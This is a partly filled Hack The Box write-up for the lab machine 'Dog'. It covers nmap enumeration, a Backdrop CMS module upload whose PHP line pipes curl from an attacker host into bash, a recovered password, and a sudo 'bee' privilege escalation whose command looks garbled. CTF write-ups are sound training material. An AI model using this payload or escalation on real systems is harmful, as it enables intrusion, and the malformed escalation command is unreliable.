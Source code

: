 ### Hack The Box Writeup: Dog

## Overview

- **Machine Name**: Dog
- **Difficulty**: Easy
- **Platform**: Hack The Box
- **Operating System**: Linux
- **Key Objectives**: 
- **Date Solved**: July 2025

## Tools Used

- **Enumeration**: \[e.g., Nmap, Gobuster\]
- **Exploitation**: \[e.g., Metasploit, Custom Python scripts\]
- **Privilege Escalation**: \[e.g., LinPEAS, Windows Exploit Suggester\]
- **Other**: \[e.g., Burp Suite, Wireshark\]

## Methodology

### Initial Enumeration


```bash
ping -c 1 10.10.11.58

nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn -oG allPorts 10.10.11.58
nmap -sCV -p22,80 10.10.11.58 -oN targeted

whatweb http://10.10.11.58:80

# ans
http://10.10.11.58:80 [200 OK] Apache[2.4.41], Content-Language[en], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.58], UncommonHeaders[x-backdrop-cache,x-generator], X-Frame-Options[SAMEORIGIN]

nmap --script http-enum -p80 10.10.11.58 -oN webScan

# recompose project with git-hack

tiffany@dog.htb
pass: # view file sttings.php


```

### Exploitation

```bash
# we need to download backdrop modules examples and delete page_example.module and replace it with our own module

<>
<?php
  system("curl 10.10.16.58 | bash");
?>

# After that, we need to compress all files
tar -zcvf page_example.tar.gz page_example/

BackDropJ2024DS2024

```

### Privilege Escalation

```bash

script /dev/null -c bash
sctrl + z
stty raw -echo; fg

reset xterm
export TERM=xterm
export SHELL=bash

su johncusack

BackDropJ2024DS2024

sudo -l

# ans
User johncusack may run the following commands on dog:
    (ALL : ALL) /usr/local/bin/bee

sudo bee --root=/var/www/html sh');"system('chmod u+s /bin');" 

```

## Challenges Faced


## Lessons Learned


## References


---

*Written by YourName, July 2025. Feedback welcome at https://github.com/edibauer*